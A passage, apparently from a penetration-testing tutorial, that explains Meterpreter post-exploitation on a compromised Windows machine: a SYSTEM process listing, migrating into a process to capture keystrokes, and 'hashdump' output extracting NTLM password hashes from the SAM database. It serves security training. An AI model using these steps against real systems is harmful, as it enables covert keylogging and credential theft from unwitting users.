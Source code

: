 ```
 900   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 952   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1076  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1164  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1168  692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  
 1244  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
 1276  1304  cmd.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe
 1304  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1340  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    
 1388  548   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]

```

**Migrate**

Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the keyscan_start, keyscan_stop, and keyscan_dump command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session.

To migrate to any process, you need to type the migrate command followed by the PID of the desired target process. The example below shows Meterpreter migrating to process ID 716.

The migrate command

```
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
meterpreter >
```

Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.

**Hashdump**

The hashdump command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

The hashdump command

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
meterpreter >
```
